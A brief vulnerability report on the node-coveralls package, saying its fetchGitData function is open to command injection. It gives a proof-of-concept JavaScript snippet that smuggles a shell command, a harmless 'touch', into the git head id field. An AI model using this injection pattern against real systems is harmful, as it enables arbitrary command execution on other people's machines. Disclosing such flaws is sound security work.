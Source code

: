## description
node-coveralls gets the great coverage reporting of coveralls.io and adds a cool coverage button (like the one above) to your README.

The function fetchGitData in node-coveralls is vulnerable to command injection.

## PoC
Create a .js file with the content below and run it, then the file pzhou@shu should be created.

var fetchGitData = require('coveralls/lib/fetchGitData');

fetchGitData({head:{id:'1}$(touch pzhou@shu)'}},() => {});

